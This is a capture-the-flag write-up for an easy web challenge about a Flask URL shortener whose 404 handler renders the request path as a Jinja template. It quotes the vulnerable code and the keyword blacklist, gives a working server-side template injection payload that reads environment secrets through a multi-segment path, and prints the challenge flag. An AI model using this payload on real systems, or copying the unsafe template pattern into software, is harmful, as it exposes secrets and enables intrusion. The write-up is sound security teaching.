

```
            ▗▄▄▄▖▗▞▀▚▖▄▄▄▄  ▄▄▄▄  █  ▄▄▄     ▐▌▗▞▀▚▖
              █  ▐▛▀▀▘█ █ █ █   █ █ █   █    ▐▌▐▛▀▀▘
              █  ▝▚▄▄▖█   █ █▄▄▄▀ █ ▀▄▄▄▀ ▗▞▀▜▌▝▚▄▄▖
              █             █     █       ▝▚▄▟▌     
                            ▀                       
```

**Category:** Web
**Level:** Easy
**Instance:** http://bmnzdgnsz2l4.playat.flagyard.com
> We don't trust any URL shortener, so we decided to make our own.

**Flag:** FlagY{a968fb526ce40dd7ccc9ad028ac3584d}

# WHAT EVEN IS THIS

The app takes whatever we type in the URL, slaps it into an HTML template string, and hands that string to Jinja to render. When the app can't find a short code it doesn't just show a plain 404. Instead, it stitches whatever path we typed into a template string and asks Jinja to render it.

Furthermore, the app tries to be clever with a blacklist, but only in one place, and only for single-segment short codes. If we use a multi-part path (like `/a/{{...}}/b`), the blacklist never gets invited to the party, which means we go straight to the 404 page, which renders our input as a template.

# WHY THIS IS A PROBLEM (TL;DR)

These templates aren't just for pretty HTML: Jinja templates can access Python objects. From there you can reach `os.environ` and other internals. That's how secrets (like `DYN_FLAG`) can be printed on a 404 page.

**TL;DR:** one tiny path → raw template render → secret leakage


# SOLUTION

First things first, we examined how the app worked. *(See app.py)*

Now, let's focus on the `short_code` route. Any one-segment path (e.g. `/abc`) will match this route. ***BUT***, paths with additional slashes like `/a/b` don't match this route. So, Flask will try to match other rules and eventually call the 404 handler. This means, the routing creates *two different code paths* for short-looking URLs vs multi-segment paths. Furthermore, the blacklist and DB lookup live inside `redirect_url`. As such, multi-segment requests never run that blacklist. The blacklist itself is gameable as it is just against the words listed. Moreover, if the `short_code` is known, the app redirects. If not, it raises a 404 which triggers the custom 404 handler. The most important bit of all: the 404 path is reached *whenever* the shortcode is unknown or when the request didn’t hit `redirect_url` at all.

```python
@app.route('/<short_code>')
def redirect_url(short_code):
    blacklist = ['{{', 'class', 'attr', 'mro', '[', 'import', 'os', 'system', 
                'subclasses', 'mro', 'request', 'args', 'eval', 'exec']
    
    for word in blacklist:
        if word in short_code.lower():
            return "Forbidden characters in URL!"
    
    db = get_db()
    url = db.execute('SELECT original_url FROM urls WHERE short_code = ?', 
                    (short_code,)).fetchone()
    db.close()
    
    if url:
        return redirect(url['original_url'])
    abort(404)
```

Now, now, let me direct your focus to our next star of the show, our precious `errorhandler`. The handler builds a template string by concatenating untrusted path content straight into a template source, then calls `render_template_string` to render it. That is the crux: the template source itself is attacker-controlled. This is because `render_template_string` will parse and evaluate Jinja template expressions inside that source. If path contains template delimiters or expressions, Jinja will try to evaluate them server-side. That’s classic SSTI (Server-Side Template Injection).

```python
@app.errorhandler(404)
def page_not_found(e):
    path = request.path.lstrip('/')
    template = '''
        <h1>404 - Page Not Found</h1>
        <p>The requested URL /''' + path + ''' was not found on this server.</p>
        <p>Please check the URL or go back to the <a href="/">homepage</a>.</p>
    '''
    return render_template_string(template), 404
```

So, let's take what we know and craft the payload. As we can see, the admin flag is coming from `os.getenv('DYN_FLAG', 'FlagY{test_flag}')`.

```python
@app.route('/dashboard', methods=['GET', 'POST'])
@login_required
def dashboard():
    # the rest of the code
    flag_section = ''
    if session.get('username') == 'admin':
        flag = os.getenv('DYN_FLAG', 'FlagY{test_flag}')
        flag_section = f'<div class="admin-section"><h3>Admin Section</h3><p>Flag: {flag}</p></div>'
    
    return render_template('dashboard.html', urls=urls, flag_section=flag_section)
```

With Jinja, we can reach os via the built-in cycler object: `/a/{{cycler.__init__.__globals__['os'].environ['DYN_FLAG']}}/b` (or in a more URL way, `/a/%7B%7Bcycler.__init__.__globals__%5B'os'%5D.environ%5B'DYN_FLAG'%5D%7D%7D/b`)




